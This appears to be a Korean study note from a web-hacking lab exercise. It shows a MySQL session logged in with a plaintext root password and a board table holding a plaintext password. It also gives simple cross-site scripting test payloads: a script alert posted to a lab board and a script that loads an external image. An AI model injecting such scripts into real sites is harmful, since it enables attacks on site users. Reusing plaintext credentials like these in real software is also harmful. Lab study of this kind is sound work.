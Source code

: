 ```

```



### XSS (69p)

[root@Linux-04 member]# mysql -u root -pP@ssw0rd WebTest;

```
mysql> show tables;
+-------------------+
| Tables_in_WebTest |
+-------------------+
| board             |
| member            |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from board;
+-----------+-----------+-------------+--------------+---------------------+------------------------------------+---------+-----------+----------+----------+---------------------+
| strNumber | strName   | strPassword | strEmail     | strSubject          | strContent                         | htmlTag | viewCount | filename | filesize | writeDate           |
+-----------+-----------+-------------+--------------+---------------------+------------------------------------+---------+-----------+----------+----------+---------------------+
|         1 | 관리자    | 1234        | admin@kh.com | 게시판 테스트       | 게시판 테스트 중 입니다.           | T       |         1 | NULL     |     NULL | 2020-10-19 16:47:18 |
+-----------+-----------+-------------+--------------+---------------------+------------------------------------+---------+-----------+----------+----------+---------------------+
1 row in set (0.00 sec)

```



###### XP 

172.16.10.20 게시판에

```
글 쓸 때 <script>alert("Reflected XSS")</script> 

이걸로 검색해도 됨
```



#### 다음 이미지 따오기

```
<img name="i" width="150" height="100"></img>
<script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
```



###### 칼리
